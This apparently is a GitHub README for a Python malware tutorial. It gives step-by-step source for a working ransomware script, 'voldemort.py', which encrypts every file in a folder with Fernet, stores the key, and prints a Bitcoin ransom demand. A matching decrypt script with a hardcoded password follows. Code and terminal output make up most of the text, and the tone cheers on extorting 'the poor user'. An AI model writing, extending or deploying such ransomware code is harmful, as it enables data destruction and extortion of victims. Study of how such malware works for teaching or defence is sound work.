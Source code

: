 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'8QVEe4MBoSLINxTpyOExsqrL5XiOks5g1_w-xF-OAmk='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
se_by38p9NVVsWezjKWbKgdztEl1GhHZsbMwcGqei84=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print(
    "UH OH!! All of your files have been encrypted! Send me 100 Bitcoin "
    "or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️"
)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo-Awg21o-xvSxpDgNGSmIIp7-dnngyWuPg7LrHrk3natLfkXeQ6tmOUmFEEjF7Y2RiGlSA4qUAzCUuENsnPWvMN9M_A==%
$ cat file2.txt
gAAAAABo-Awg7t0A_gnTwpl0wWT8wQ5n_H_8bMYAUkNSaF3matNYFsdLnL5Va1oHzkPf1er3fPCKdENvHEdgdfbz_ezx6MiHcg==%
$ cat hey.txt
gAAAAABo-AwgVjmPsRVbL8dOGVu3vb6irWteZ-hFoJmatlHmUo7OzaKfLYS8sWJJcbEOG8YZWkhopMEjDenfYsDGxUti3BJVVw==%
$ cat pleasedonthurtme.txt
gAAAAABo-AwgPUfd7gp184nZvENjB9NhHBiXUZkbrUV4FKnBJZbCQg1fDEll2U42eUYLCBE0LOavmW7fnLFB5Rt8btzK5LspBw==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
SUxaxvZHjB7l5wgJJJFrHyWHr0D3WBA8CdYWYHVnrIc=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA the *encrypt.py* file):

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Decrypt the Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_decrypted = Fernet(secret_key).decrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_decrypted)

```
</details>

Run ``decrypt.py`` and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

**Step 6:**
Let's add a bit of fun to our ``decrypt.py`` file:

<pre>
<code>$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Password-Lock the Encrypted Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

secret_phrase = "coffee"

user_phrase = input(
    "Enter the secret password to decrypt "
    "all of your files:\n ")

if user_phrase == secret_phrase:
    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_decrypted = Fernet(secret_key).decrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_decrypted)
        print(
            "Congratulations! All of your files have been decrypted. "
            "Enjoy your coffee ️❤ ☕ ❤"
        )
else:
    print(
        "Sorry not sorry, but you entered da wong secret password. "
        "Send me more Bitcoin! 🤑🤑🤑"
    )

```
</details>

Run ``voldemort.py`` *again* and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

Then run ``decrypt.py`` *again* and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!
